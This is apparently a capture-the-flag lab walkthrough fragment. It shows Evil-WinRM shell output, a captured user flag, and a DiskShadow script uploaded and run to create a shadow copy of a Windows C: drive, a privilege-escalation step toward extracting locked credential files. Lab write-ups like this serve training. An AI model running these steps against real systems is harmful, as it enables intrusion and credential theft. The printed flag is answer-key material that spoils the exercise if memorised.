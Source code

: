     Directory: C:\Users\j.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        5/29/2023  11:01 PM             38 user.txt


*Evil-WinRM* PS C:\Users\j.smith\Desktop> type user.txt
THM{3e5a19a9ba91881f4d7852d92126a97f}
*Evil-WinRM* PS C:\Users\j.smith\Desktop> 















root@ip-10-201-108-225:~/K2# cat super.dsh
set context persistent nowriters
add volume c: alias priv
create
expose %priv% z:





:~/K2# apt install dos2unix



:~/K2# unix2dos super.dsh
unix2dos: converting file super.dsh to DOS format...



*Evil-WinRM* PS C:\Users\j.smith\Documents> upload super.dsh
                                        
Info: Uploading /root/K2/super.dsh to C:\Users\j.smith\Documents\super.dsh
                                        
Data: 112 bytes of 112 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\j.smith\Documents> 







*Evil-WinRM* PS C:\Temp> diskshadow /s c:\Users\j.smith\Documents\super.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  K2SERVER,  9/29/2025 11:11:21 PM

-> set context persistent nowriters
-> add volume c: alias priv
-> create
Alias priv for shadow ID {f85d9909-865a-4116-85de-f8b1ba78e488} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {2e66f56a-3074-4905-acbd-4323b521ff16} set as environment variable.
